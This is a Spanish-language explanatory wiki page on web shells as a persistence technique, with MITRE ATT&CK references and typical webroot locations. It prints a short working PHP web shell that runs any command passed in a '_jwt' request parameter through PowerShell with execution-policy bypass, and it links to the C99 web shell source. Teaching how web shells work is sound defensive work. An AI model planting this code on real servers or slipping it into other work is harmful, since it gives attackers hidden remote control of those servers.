 # Web Shell

La persistencia es el grupo general de técnicas utilizadas para mantener el acceso a un sistema, aplicación o entorno de destino (TAOOO3).

Una shell web consta de uno o más scripts web cargados en un servidor web comprometido que habilitan funciones adicionales no autorizadas en ese servidor. Normalmente, esta funcionalidad equivale a una puerta trasera y puede habilitar funciones como la inyección remota de comandos, carga/descarga de archivos.

## ¿Como es una web shell?

Web Shells presentes en una variedad de formas y tamaños.

```php
<?php
if(isset($_REQUEST['_jwt'])){
  echo "<pre>";
  $cmd = ($_REQUEST['_jwt']);
  system('powershell.exe -ep bypass -c '.$cmd);
  echo "</pre>";
  die;
}
?>
```

Este archivo PHP es el componente del lado del servidor del shell web y permite a un atacante emitir comandos arbitrarios al servidor web en el que está alojado. Cualquier comando recibido por el archivo PHP a través del parámetro "\_jwt" en la URL se ejecutará como parte de un comando de PowerShell con el parámetro agregado de omitir la política de ejecución del sistema local. Al utilizar este shell web, un atacante podría ejecutar cualquier comando que pueda ejecutarse a través de PowerShell en el objetivo, y cualquier comando emitido de esta manera probablemente será ejecutado por el proceso del servidor web y bajo los permisos con los que opera.

**Ejemplos más complejos**

Los Web Shells también pueden ser puertas traseras más complicadas y con todas las funciones. Por ejemplo, la bifurcación del popular [shell web PHP C99](https://github.com/cermmik/C99-WebShell/blob/master/c99shell.php) contiene casi 5000 líneas de código y una variedad de funciones más fáciles de usar.

**¿Dónde se encuentran?**

Los shells web generalmente se colocan en una ubicación donde serán atendidos por el propio servidor web, generalmente dentro de la estructura de directorios debajo de la raíz web. Por ejemplo:

* Webroot típico de IIS: \inetpub\wwwroot o sus subdirectorios.
* Webroot típico de Apache: /var/www o sus subdirectorios.

Es posible que necesite determinar la raíz web para su aplicación de servidor web específica. Estas asignaciones de directorios se pueden personalizar. Para obtener mayor claridad sobre los directorios de shell web viables, consulte la configuración de los servidores web en su entorno y tenga en cuenta específicamente la raíz web, así como cualquier otro directorio que almacene componentes de aplicaciones dinámicas para el servidor web y cualquiera de sus complementos o complementos. .

**Los riesgos**

El principal riesgo asociado con un **Web Shell** es el acceso no autorizado persistente y el control de un servidor web o de aplicaciones.&#x20;

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://attack.mitre.org/tactics/TA0003/" %}

{% embed url="https://attack.mitre.org/techniques/T1505/003/" %}

{% embed url="https://www.akamai.com/blog/security-research/defeating-webshells-wso-ng" %}
